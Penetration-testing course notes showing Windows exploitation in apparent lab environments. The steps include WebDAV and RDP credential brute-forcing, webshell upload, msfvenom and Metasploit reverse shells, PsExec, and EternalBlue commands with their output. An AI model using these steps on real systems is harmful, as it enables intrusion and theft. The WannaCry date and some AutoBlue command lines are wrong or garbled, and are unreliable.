

# Section 3 course 1: Host & Network Penetration Testing: System/Host Based Attacks

### Table of Contents

- [Host Based Attacks](#Host Based Attacks)
- [Windows Vulnerabilities](#Windows Vulnerabilities)
- [Exploiting Windows Vulnerabilities](#Exploiting Windows Vulnerabilities)
  - Exploiting Microsoft IIS WebDAV
  - Exploiting WebDAV With Metasploit
  - Exploiting SMB With PsExec    
  - Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)    
  - Exploiting RDP
  - Exploiting WinRM    
  
- [Windows Privilege Escalation](#Windows Privilege Escalation)
  - Windows Kernel Exploits    
  - Bypassing UAC With UACMe  
  - Access Token Impersonation  
  
- [Windows File System Vulnerabilities](#Windows File System Vulnerabilities)
  - Alternate Data Streams

- [Windows Credential Dumping](#Windows Credential Dumping)
  - Windows Password Hashes    
  - Searching For Passwords In Windows Configuration Files
  - Dumping Hashes With Mimikatz
  - Pass-The-Hash Attacks    

- [Linux Vulnerabilities](#Linux Vulnerabilities)
- [Exploiting Linux Vulnerabilities](#Exploiting Linux Vulnerabilities)
- [Linux Privilege Escalation](#Linux Privilege Escalation)
- [Linux Credential Dumping](#Linux Credential Dumping)

<br />

---

### Host Based Attacks

**what is System/Host Based Attacks ?**

attacks that are targeted towards a specific system or host running specific OS for example linux or windows. it's focused on exploiting misconfiguration or inherent vulnerabilities on the target OS

<br />

### Windows Vulnerabilities

Microsoft Windows has various OS versions and releases which makes the threat surface fragmented in terms of vulnerabilities. For example, vulnerabilities that exist in Windows 7 are not present in Windows 10.


Regardless of the various versions and releases, all Windows OS’s share a likeness given the development model and philosophy:

+ Windows OS’s have been developed in the C programming language, making them vulnerable to buffer overflows, arbitrary code execution etc.
+ By default, Windows is not configured to run securely and require a proactive implementation of security practices in order to configure Windows to run securely.
+ Newly discovered vulnerabilities are not immediately patched by Microsoft and given the fragmented nature of Windows, many systems are left unpatched.

The frequent releases of new versions of Windows is also a contributing factor to exploitation, as many companies take a substantial length of time to upgrade their systems to the latest version of Windows and opt to use older versions that may be affected by an increasing number of vulnerabilities.

<br />

### Exploiting Windows Vulnerabilities

- Microsoft Windows has various native services and protocols that can be configured to run on a host. 
- These services provide an attacker with an access vector that they can utilize to gain access to a target host. 
- Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.


<br />

---

### Exploiting Windows Vulnerabilities

#### 1- Exploiting WebDAV running on Microsoft IIS 

**Microsoft IIS**

- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.

- It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.

- IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.

- Typically configured to run on ports 80/443.

- Supported executable file extensions:

  + .asp

  + .aspx

  + .config

  + .php

<br />

**WebDAV**

- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit
  and manage files on remote web servers.
- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
- WebDAV runs on top Microsoft IIS on ports 80/443.
- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

<br />

**WebDAV Exploitation**

- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious `.asp` payload that can be used to execute arbitrary commands or obtain a reverse shell on the target

<br />

**Tools**

- **davtest** - Used to scan, authenticate and exploit a WebDAV server.
- **cadaver** - cadaver supports file upload, download, on-screen display, inplaceediting, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.

<br />

**nmap**

```bash
root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:00 IST
Nmap scan report for 10.4.22.42
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Sat, 13 Jan 2024 14:30:29 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:02 IST
Nmap scan report for 10.4.22.42
Host is up (0.0088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

`webdav`  directory is exist

From the output, it is clear that the WebDAV extension is enabled and the server is Microsoft-IIS/10.0. Also, you can see the `PUT` method is allowed, this means you can upload the file and with the `GET` method, you can execute it. This is interesting as you can upload and test whether the shell is working on not.

<br />

**Webdav credential bruteforce using hydra**

```bash
root@attackdefense:~# hydra -L users.txt -P password_list.txt 10.4.22.42 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-13 20:05:41
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-get://10.4.22.42:80/webdav/
[80][http-get] host: 10.4.22.42   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
```

<br />

**trying to upload and execute files with different extensions using `davtest`**

```bash
root@attackdefense:~# davtest -auth bob:password_123321 -url http://10.4.22.42/webdav/
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.4.22.42/webdav
********************************************************
NOTE	Random string for this session: 26C0J8
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.4.22.42/webdav/DavTestDir_26C0J8
********************************************************
 Sending test files
PUT	cfm		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT	shtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT	cgi		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT	jhtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT	pl		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT	jsp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT	php		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT	aspx	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
********************************************************
 Checking for test file execution
EXEC	cfm		FAIL
EXEC	shtml	FAIL
EXEC	cgi		FAIL
EXEC	jhtml	FAIL
EXEC	pl		FAIL
EXEC	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
EXEC	jsp		FAIL
EXEC	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
EXEC	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
EXEC	php		FAIL
EXEC	aspx	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.4.22.42/webdav/DavTestDir_26C0J8
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
```

All files with different extensions uploaded successfully but only files with `asp`, `html` and `txt` extensions were executed successfully, so if we need to perform command execution or get reverse shell we need `asp` shell

<br />

**Upload asp webshell using `cadaver`**

```bash
root@attackdefense:~# cadaver http://10.4.22.42/webdav/
Authentication required for 10.4.22.42 on server `10.4.22.42':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_26C0J8                      0  Jan 13 20:09
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

```


<br />

<br />




<br />

---

#### **Exploiting WebDAV With Metasploit    **

**Metasploit  method1: using  `exploit/windows/iis/iis_webdav_upload_asp`**

```bash
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.80.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.4.23.46
RHOSTS => 10.4.23.46
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /metasploit219740735.asp
[*] Uploading 612521 bytes to /metasploit219740735.txt...
[-] Upload failed on /metasploit219740735.txt [401 Unauthorized]
[*] Exploit completed, but no session was created.
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit%RAND%.asp
PATH => /webdav/metasploit%RAND%.asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /webdav/metasploit162025281.asp
[*] Uploading 609318 bytes to /webdav/metasploit162025281.txt...
[*] Moving /webdav/metasploit162025281.txt to /webdav/metasploit162025281.asp...
[*] Executing /webdav/metasploit162025281.asp...
[*] Deleting /webdav/metasploit162025281.asp (this doesn't always work)...
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 1 opened (10.10.80.2:4444 -> 10.4.23.46:49800) at 2024-01-13 20:50:25 +0530

meterpreter > 

```


<br />

**Metasploit  method2: using  `msfvenom`**

```bash
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.2 LPORT=1234 -f asp > asp_shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38281 bytes
```

<br />

**setup the listener**

```bash
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.80.2       yes       The listen address (an interface may be s
                                     pecified)
   LPORT  1234             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.80.2:1234 
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 63 opened (10.10.80.2:1234 -> 10.4.23.46:49921) at 2024-01-13 21:07:19 +0530
meterpreter > 

```


<br />

---

#### 2- SMB

- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
- SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
- SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
- The SMB protocol utilizes two levels of authentication, namely:
  - User authentication - Users must provide a username and password in order to authenticate with the SMB server in order to access a share.
  - Share authentication - Users must provide a password in order to access restricted share.

#### PsExec

- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user’s
  credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command
  prompt.
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

#### Exploiting SMB With PsExec    

In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes. This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack. We can narrow down our brute-force attack to only include common Windows user
accounts like: Administrator.

After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

<br />

**Gather shares with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.19.178 -u demo -p victoria
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	NO ACCESS	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

root@attackdefense:~# smbmap -H 10.4.19.178 -u administrator -p qwertyuiop
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	READ, WRITE	
	ADMIN$                                            	READ, WRITE	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	READ, WRITE	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

```

user `demo` does not have access to `	ADMIN$   ` while `administrator` has

<br />

```bash
root@attackdefense:~# psexec.py administrator@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file UTFKeDZS.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service bUwC on 10.4.19.178.....
[*] Starting service bUwC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system


================================================================================================================================

root@attackdefense:~# psexec.py administrator@10.4.19.178 ipconfig
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file htKsTxhZ.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service WeAE on 10.4.19.178.....
[*] Starting service WeAE.....
[!] Press help for extra shell commands

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::55c2:45f5:a88b:6213%8
   IPv4 Address. . . . . . . . . . . : 10.4.19.178
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal

Tunnel adapter Local Area Connection* 3:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:34f1:8072:2467:b54:f5fb:ec4d
   Link-local IPv6 Address . . . . . : fe80::2467:b54:f5fb:ec4d%7
   Default Gateway . . . . . . . . . : ::
[*] Process ipconfig finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.4.19.178.....
[*] Stopping service WeAE.....
[*] Removing service WeAE.....
[*] Removing file htKsTxhZ.exe.....

================================================================================================================================
if the user does not have wriable share

root@attackdefense:~# psexec.py demo@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[-] share 'admin' is not writable.
[-] share 'ADMIN$' is not writable.
[-] share 'C' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share public
[*] Uploading file RxmlsLpn.exe
[*] Opening SVCManager on 10.4.19.178.....
[-] Error opening SVCManager on 10.4.19.178.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

```

utilizing smb credentials to login remotely with PSexec

<br />

**exploit smb psexec using metasploit `windows/smb/psexec`**

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > set RHOSTS 10.4.19.178
RHOSTS => 10.4.19.178
msf5 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf5 exploit(windows/smb/psexec) > set SMBPASS qwertyuiop
SMBPASS => qwertyuiop
msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.19.178:445 - Connecting to the server...
[*] 10.4.19.178:445 - Authenticating to 10.4.19.178:445 as user 'administrator'...
[*] 10.4.19.178:445 - Selecting PowerShell target
[*] 10.4.19.178:445 - Executing the payload...
[+] 10.4.19.178:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.4.19.178
[*] Meterpreter session 1 opened (10.10.22.2:4444 -> 10.4.19.178:49818) at 2024-01-14 15:56:10 +0530

meterpreter > 

```

<br />


#### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)    

- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple versions of Windows:
  ○ Windows Vista
  ○ Windows 7
  ○ Windows Server 2008
  ○ Windows 8.1
  ○ Windows Server 2012
  ○ Windows 10
  ○ Windows Server 2016
- Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.
  - AutoBlue-MS17-010: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

<br />

**detect MS17-010 SMB (EternalBlue) with nmap    **

```bash
root@attackdefense:~# nmap 10.0.0.2 -sV -p445 --script=smb-vuln-ms17-010
```

<br />

**exploite MS17-010 SMB (EternalBlue) with [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) **

```bash
root@attackdefense:~# git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
root@attackdefense:~# cd AutoBlue-MS17-010/shellcode
root@attackdefense:~# chmod +x shell_prep.sh
root@attackdefense:~# ./ shell_prep.sh
root@attackdefense:~# LHOST
root@attackdefense:~# 1234 => 	LPORT
root@attackdefense:~# 1 => 		cmd shell
root@attackdefense:~# 1 => 		stageless payload


set netcat listener
root@attackdefense:~# nc -nvlp 1234 
root@attackdefense:~# LPORT


root@attackdefense:~# chmod +x eternalblue_exploit7.py  (it debends on the victim's windows version)
root@attackdefense:~# python eternalblue_exploit7.py LHOST(ip) shellcode/sc_64.bin
```

<br />

**detect MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```


<br />

**exploite MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > exploit/windows/smb/ms17_010_eternalblue
```

<br />

---

#### 3- Exploiting RDP

- The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
- RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

<br />

**detect & confirm that RDP is running on specific port using metasploit `auxiliary/scanner/rdp/rdp_scanner` **

```bash
msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.4.28.81
RHOSTS => 10.4.28.81
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333
RPORT => 3333
msf5 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 10.4.28.81:3333       - Detected RDP on 10.4.28.81:3333       (Windows version: 6.3.9600) (Requires NLA: Yes)
[*] 10.4.28.81:3333       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/rdp/rdp_scanner) > 

```

We have successfully detected the RDP service port. Also, We can notice that the target RDP service port is not exposed to the default port (3389), instead it is exposed on port 3333

<br />

**bruteforce RDP credentials on port 3333 after detecting that RDP is running on it**

```bash
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.28.81 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-15 19:48:45
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.4.28.81:3333/
[3333][rdp] host: 10.4.28.81   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.28.81   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
[STATUS] 6181.00 tries/min, 6181 tries in 00:01h, 882 to do in 00:01h, 4 active
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-15 19:50:03

```

<br />

**connect to the target via RDP**

```bash
root@attackdefense:~# xfreerdp /u:administrator /p:qwertyuiop /v:10.4.28.81:3333 
```

<br />


**CVE-2019-0708 - BlueKeep RDP**

- BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary
  code and gain access to a Windows system and consequently the network that the target system is a part of.
- The BlueKeep vulnerability was made public by Microsoft in May 2019.
- The BlueKeep exploit takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication with high privillage because it will run in kernel mode.
- Microsoft released a patch for this vulnerability on May 14th, 2019 and has urged companies to patch this vulnerability as soon as possible.
- At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
- The BlueKeep vulnerability affects multiple versions of Windows:
  ○ XP
  ○ Vista
  ○ Windows 7
  ○ Windows Server 2008 & R2

<br />

**CVE-2019-0708 - BlueKeep Exploit**

- The BlueKeep vulnerability has various illegitimate PoC’s and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
- The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
